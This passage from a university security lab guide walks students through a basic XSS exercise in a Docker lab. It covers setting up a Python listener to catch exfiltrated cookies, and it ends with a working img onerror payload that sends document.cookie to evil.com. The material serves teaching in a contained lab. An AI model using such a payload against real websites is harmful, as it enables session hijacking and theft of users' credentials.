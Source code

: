 ### 6.2.2 Basic XSS Attack Exercise

For this exercise, download [docker-compose.xss\_basic.yml](files/lab6/docker-compose-files/docker-compose.xss\_basic.yml).&#x20;

{% hint style="warning" %}
The bot (xss-bot service) is used to insert the flag as the document cookie via the chrome browser driver. So you are required to use the Chrome browser for this exercise.

If you don't or cannot install Chrome browser (e.g., M1/M2 users), you can manually insert the cookie yourself to test the XSS attack working:

* Right-click on the browser page -> inspect -> Storage -> Cookies -> Add item -> modify the name and value to something that you can recognise later.

Similarly, if the bot isn't working as intended, you can insert the cookies manually.
{% endhint %}

```
wget https://raw.githubusercontent.com/uwacyber/cits3006/2022s2/cits3006-labs/files/lab6/docker-compose-files/docker-compose.xss_basic.yml
```

{% hint style="info" %}
M1/M2 users: you have to do the following 5 tasks:

1\. Run the amd64 emulator - \
`sudo docker run --privileged --rm tonistiigi/binfmt --install amd64` \
2\. Line 6 - change the image name to `uwacyber/cits3006:xss-server-no-csp-arm`

3\. Line 29 - change the image name to `arm64v8/mysql:8.0.30`

4\. Line 31 - change the platform to `linux/arm64`

5\. Remove the `xss-bot` service in the `yml` file (as described above, the bot works with the Chrome browser, which cannot be installed on ARM processors)
{% endhint %}

Run the Docker containers using the following command.

<pre><code><strong>sudo docker-compose -f docker-compose.xss_basic.yml up</strong></code></pre>

Next, we will be running a basic HTTP server for receiving the exfiltrated cookie for the admin user. You can do this using the following command that will start the `python` HTTP server.

```
python3 -m http.server 80
```

Now, perform XSS to steal the server's document cookies.

### 6.2.3 Exploiting XSS Using Other HTML Tags

Sometimes a web application will have a filter implemented that removes `<script>` from the user input or the Content-Security-Policy has disabled inline execution of JavaScript code (discussed more in section 6.2.3). However, this filter is not sufficient to prevent an XSS attack since there are large number of other HTML tags that can also execute JavaScript. For example, the `<img>` tag has an `onerror` attribute that executes JavaScript code if an error occurs trying to load the image. So you can still trigger the XSS vulnerability with the following payload.

```html
<img src=x onerror="window.location='https://evil.com/?nomnom='+document.cookie" />
```
